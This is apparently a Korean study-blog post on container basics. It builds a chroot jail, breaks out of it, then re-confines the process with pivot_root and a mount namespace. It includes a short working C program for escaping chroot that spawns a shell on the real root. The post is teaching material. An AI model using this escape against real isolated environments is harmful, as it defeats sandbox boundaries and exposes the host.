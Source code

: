 ```yaml
---
layout: post
title: [KANS] 컨테이너의 시작 chroot 감옥 체험기
category: study
tags: kans,study
---
```


컨테이너는 가상머신과 다르게 커널을 공유해서 바로 프로세스를 실행 할 수 있는 구조이다.
아래 그림과 같이 호스트 커널을 공유하지만 각각의 독립된 사용자 공간을 가진다.

![1-0-0](/assets/img/1-0-0.png)



이러한 컨테이너의 시작은 특정 디렉토리를 루트(/)로 지정하여 해당 경로에 프로세스를 가두는 방식이다.

![1-0-1](/assets/img/1-0-1.png)

루트디렉토리 아래에 있는 디렉토리 A를 루트로 지정하여 들어가게되면

![1-0-2](/assets/img/1-0-2.png)

안에 있는 프로세스들은 디렉토리 A를 루트로 갇히게 된다.



#### 사용되는 명령어

chroot
:프로세스가 실행되는 루트 디렉토리를 특정 디렉토리로 변경한다.

pivot_root
:프로세스의 마운트 네임스페이스에서 루트 마운트를 특정 디렉토리에 마운트 되어있는 새 마운트로 변경한다.



![1-1-0](/assets/img/1-1-0.jpg)
#### 감옥생성

```
# 루트가 될 디렉토리(new-root)를 생성 후 필요한 명령어 복사
mkdir -p new-root/bin
cp $(which bash) new-root/bin

# 명령어 실행 시 참조하는 라이브러리 복사
ldd /bin/bash
cp /lib/x86_64-linux-gnu/libtinfo.so.6 new-root/lib/
...
```
이런식으로 필요한 명령어들을 하나씩 복사해서 넣어준다.
chroot 명령어를 통해 들어가보면 만들어진 루트 디렉토리에 갇힌 것을 확인할 수 있다.

![1-1](/assets/img/1-1.png)



#### 탈옥
탈옥하기에 앞서 위와 같이 명령어를 하나씩 다 넣기는 힘드니 만들어진 이미지를 사용하여 새로운 루트를 만들어준다.

```
# nginx이미지를 tar로 압축 후 nginx-root 디렉토리에 압축 해제
docker export $(docker create nginx:latest) | tar -C nginx-root -xvf -

# 탈옥 코드
cat <<EOF >escape_chroot.c
#include <sys/stat.h>
#include <unistd.h>

int main(void)
{
  mkdir(".out",0755);
  chroot(".out");
  chdir("../../../../../");
  chroot(".");

  return execl("/bin/sh", "-i", NULL);
}
EOF

# 위의 코드를 컴파일하여 nginx-root에 escape_chroot이라는 실행 파일을 생성
gcc -o nginx-root/escape_chroot escape_chroot.c
```
chroot 명령어를 사용하여 들어가 탈옥코드로 만든 실행파일을 실행시키면 진짜 루트 디렉토리로 나오게된다.

![1-2](/assets/img/1-2.png)



#### 문제 해결을 위해 pivot_root와 mount namespace를 이용하여 다시 가두기

```
# 디렉토리 생성 후 800M사이즈의 파일시스템을 마운트
mkdir new-root
mount -n -t tmpfs -o size=800M none new-root

# 위에서 테스트 했던 nginx-root의 파일들을 복사하여 새 디렉토리에 붙여넣기
cp -r nginx-root/* new-root/

# 마운트 포인트 디렉토리 생성
mkdir new-root/old-root

# 호스트에 영향을 주지않기 위해 mount namespace분리
unshare -m
```
escape_chroot을 돌려도 만들어진 루트 디렉토리에서 빠져나오지 못하는 것을 확인할 수 있다.

![1-3](/assets/img/1-3.png)



이렇게 격리된 환경의 리소스들은 해당 네임스페이스 안에서만 볼 수 있고 변경되지만,
자식은 부모의 네임스페이스를 상속받기 때문에 호스트에서 컨테이너 파일들에 접근과 프로세스 확인이 가능하다.


![1-4](/assets/img/1-4.png)

컨테이너 파일에 접근하여 파일 생성 및 삭제가 가능하고


![1-5](/assets/img/1-5.png)

호스트에서 컨테이너의 프로세스 확인 후 프로세스를 종료시키면 컨테이너 안에서도 종료되는 것을 확인할 수 있다. 



---
참고
- [https://netpple.github.io/docs/make-container-without-docker/container-internal-1](https://netpple.github.io/docs/make-container-without-docker/container-internal-1)
- [https://netpple.github.io/docs/make-container-without-docker/container-internal-2](https://netpple.github.io/docs/make-container-without-docker/container-internal-2)
- [https://www.44bits.io/ko/post/change-root-directory-by-using-chroot](https://www.44bits.io/ko/post/change-root-directory-by-using-chroot)

- [https://man7.org/linux/man-pages/man2/chroot.2.html](https://man7.org/linux/man-pages/man2/chroot.2.html)
- [https://manpages.debian.org/bullseye/manpages-dev/pivot_root.2.en.html](https://manpages.debian.org/bullseye/manpages-dev/pivot_root.2.en.html)
